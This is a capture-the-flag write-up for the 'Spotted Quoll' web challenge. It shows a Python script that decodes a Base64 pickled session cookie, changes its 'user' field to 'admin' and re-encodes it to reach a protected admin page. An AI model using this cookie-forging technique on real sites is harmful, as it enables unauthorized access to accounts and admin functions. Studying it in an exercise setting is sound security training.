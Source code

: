 ## Spotted Quoll Web 50

# Problem

This blog on Zombie research looks like it might be interesting - can you break into the /admin section?


# Solution

We get web page with quite simple interface:

![Spotted Quoll]
(assets/1.png)

We have no access to _Admin_


Quick look at request headers shows Cookie header contains long Base64 string:

![Spotted Quoll]
(assets/2.png)

String contains Python Pickle module object.

Couple of operations with Python allows us to:

- decode Base64 string to Pickle object
- unpack Pickle module
- modify 'user' key in dictionary to 'admin'
- pack it back into Pickle module and encode as Base64 

```Python
#!/usr/bin/python
import cPickle
import base64


c = cPickle.loads(base64.b64decode("KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu"))
# {'python': 'pickles', 'subtle': 'hint', 'user': None}

n = {'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}

c2 = base64.b64encode(cPickle.dumps(n))

# KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKUydhZG1pbicKcDcKcy4=
```

Simple change of _obsoletePickle_ cookie allows us to access Admin and read the flag.


